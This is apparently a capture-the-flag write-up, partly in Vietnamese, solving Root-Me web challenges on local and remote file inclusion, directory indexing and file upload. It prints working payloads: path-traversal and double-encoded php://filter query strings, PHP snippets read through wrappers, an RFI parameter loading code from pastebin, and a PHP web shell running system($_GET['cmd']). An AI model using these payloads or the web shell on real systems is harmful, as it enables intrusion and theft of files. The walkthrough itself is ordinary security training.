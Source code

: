 ### Local File Inclusion
![image](https://user-images.githubusercontent.com/77602549/164174516-0f929bb8-5a10-4fdc-8b86-d54a5687dc73.png)


![image](https://user-images.githubusercontent.com/77602549/164175580-fb16a8e5-ccde-49c6-9efc-9dddf4473bd8.png)

Vậy thư mục admin nằm ngay trong thư mục root.
Ta phải lấy được source code của file index.php

Chúng ta thử dần các payload sau:
  
  + ?files=sysadm&f=/admin/index.php cái này khỏi thử, không có chuyện admin nằm trong đây đâu
  + ?files=sysadm&f=../index.php cái này khỏi thử, nếu admin nằm ngoài đây thì sysadm sẽ thành web-serveur/ch16/admin/sysadm/ rồi, nhưng cũng đáng thử, để biết chall có chặn .. không
  + ?files=sysadm&f=../admin/index.php lỗi file_get_contents(): Filename cannot be empty
  + ?files=sysadm&f=../../admin/index.php di chuyển ra thêm một thư mục nữa -BOOM- ta được source code của file index

![image](https://user-images.githubusercontent.com/77602549/164176305-bc555b84-c24b-4c7d-8c1d-e216cb9ed005.png)





## Local File Inclusion - Double encoding

![image](https://user-images.githubusercontent.com/77602549/164176760-d250d227-f597-4e7c-912a-d9c945de213f.png)


We will use php://filter with base64 encoding

php://filter/convert.base64-encode/resource=cv

after double encoding

php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv




http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf


![image](https://user-images.githubusercontent.com/77602549/164178518-8fb1d70b-6565-4528-8787-7cbd74f7fb66.png)



## Local File Inclusion - Wrappers

![image](https://user-images.githubusercontent.com/77602549/164179748-a96d3d97-6d31-40f9-af6c-74999959a7ec.png)


![image](https://user-images.githubusercontent.com/77602549/164187956-623d7d22-ac08-4ac2-900a-33fab04896fe.png)



<?php $data = file_get_contents(“index.php”); echo $data; ?>


https://vietjack.com/php/ham_scandir_trong_php.jsp



![image](https://user-images.githubusercontent.com/77602549/164188168-fa5d727f-740a-4cab-81c6-33df0d0a3d09.png)



name too long
![image](https://user-images.githubusercontent.com/77602549/164188972-82a3d7f6-414d-42d3-b66a-591f08f132bc.png)

```
<?php 
   $path = getcwd();
   $items = scandir($path);
   
   echo "<p>Content of $path</p>";
   echo '<ul>';
   foreach ($items as $item) {
       echo '<li>' . $item . '</li>';
   }
   echo '</ul>';  
?>

```

![image](https://user-images.githubusercontent.com/77602549/164195162-1aafd712-1969-40f5-9b04-0de766c9ccaf.png)



![image](https://user-images.githubusercontent.com/77602549/164193342-b6c70f3b-fbed-44e0-9f25-295b4e399444.png)


```
<?php
   show_source('flag-mipkBswUppqwXlq9ZydO.php'); 
?>
```
## Remote File Inclusion



ĐIỀU QUAN TRỌNG VỚI DẠNG BÀI REMOTE FILE INCLUSION NÀY , TA PHẢI INCLUDE 1 FILE TỪ WEB SERVER KHÁC !


Dùng 1 server khác để get tham số là câu lệnh <?php echo file_get_contents ('index.php')?>

Mình sẽ đề xuất sử dụng https://pastebin.com/ vì nó khá là tiện 


?lang=https://pastebin.com/raw/LjpyDxwq?



## HTTP - Directory indexing

![image](https://user-images.githubusercontent.com/77602549/164369902-07dcd33e-d61f-4803-ab1a-8bb4d676ee70.png)



![image](https://user-images.githubusercontent.com/77602549/164369994-0717f0f4-9d35-4d32-896d-e20f1ec686ec.png)



![image](https://user-images.githubusercontent.com/77602549/164369921-1623f8fd-d2b4-4ad5-aed4-0ef04884f0c9.png)



## File upload - Double extensions

![image](https://user-images.githubusercontent.com/77602549/164371548-8de896ab-5b5a-417e-88b2-161fa7313293.png)


<?php

$data = system($_GET["cmd"]);
echo $data;

?>




